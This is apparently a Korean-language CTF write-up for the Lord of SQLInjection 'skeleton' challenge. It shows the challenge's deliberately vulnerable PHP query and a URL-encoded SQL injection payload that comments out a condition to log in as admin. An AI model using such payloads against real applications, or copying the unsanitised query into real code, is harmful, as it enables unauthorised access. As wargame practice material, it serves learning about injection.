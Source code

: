 ```yaml
---
layout: post
title: ! "[LOS] skeleton"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - skeleton
  - write-up
---
```


![](/assets/posts/los/skeleton.png)

`query : select id from prob_skeleton where id='guest' and pw='' and 1=0`
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```
skeleton 문제는 and 1=0 이 새로 추가 되었고 id는 admin이어야 문제가 풀린다.
and 1=0부분을 주석처리하면 되겠다 싶어서
`?pw=1234%27%20or%20id=%27admin%27%20--`

이렇게 입력을 했었는데 
![](/assets/posts/los/skeleton_comment.png)
-- 뒤에 공백이 없어서 안됐었다.

그래서 -- 뒤에 %20 을 추가해줬다.
`?pw=1234%27%20or%20id=%27admin%27%20--%20`

![](/assets/posts/los/skeleton_clear.png)
